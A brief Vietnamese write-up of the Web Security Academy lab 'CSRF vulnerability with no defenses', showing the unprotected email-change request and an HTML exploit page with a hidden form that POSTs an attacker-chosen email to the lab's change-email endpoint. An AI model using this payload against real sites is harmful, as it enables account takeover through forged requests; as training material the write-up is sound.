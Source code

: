 ## CSRF vulnerability with no defenses

1. Log in vào tài khoản `wiener:peter` thử chức năng đổi email. Nhận thấy trong request không có biện pháp bảo vệ csrf

![Img1](\asset/../img/change_email_request.png)

2. Craft trang exploit tạo 1 thẻ form đến trang `change-email` của target với method POST. Đồng thời là giá trị email của mình. Khi click submit, gửi một request đến target.

``<html>
    <body>
        <form action="https://0aa1002304ce87cdc07d36e50079006e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="sv_cuongdm@viettel" />
            <input type="submit"/>
</form>
    </body>
</html>``